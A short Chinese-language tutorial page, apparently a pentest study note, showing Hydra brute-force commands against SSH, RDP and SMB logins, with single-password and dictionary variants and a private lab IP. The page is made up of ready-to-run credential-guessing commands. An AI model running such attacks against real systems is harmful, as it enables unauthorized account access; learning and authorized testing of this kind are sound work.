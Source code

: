 

### ①爆破ssh协议

```
hydra -l root -p 1234567 IP地址 协议
hydra -l root -p 1234567 协议://IP地址
```

<figure><img src="../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>



### ②字典爆破

大写

```
hydra -l root -P 密码字典 IP字典 协议
```

<figure><img src="../.gitbook/assets/image (73).png" alt=""><figcaption></figcaption></figure>

如果想看具体细节，可以加-vV参数在最后。



### ③远程桌面爆破（RDP）爆破：



```
hydra -l administrator -P 密码字典 192.168.31.173 rdp

```



### ④共享文件（SMB)爆破

```
hydra -l administrator -P 密码字典 192.168.31.173 smb

```


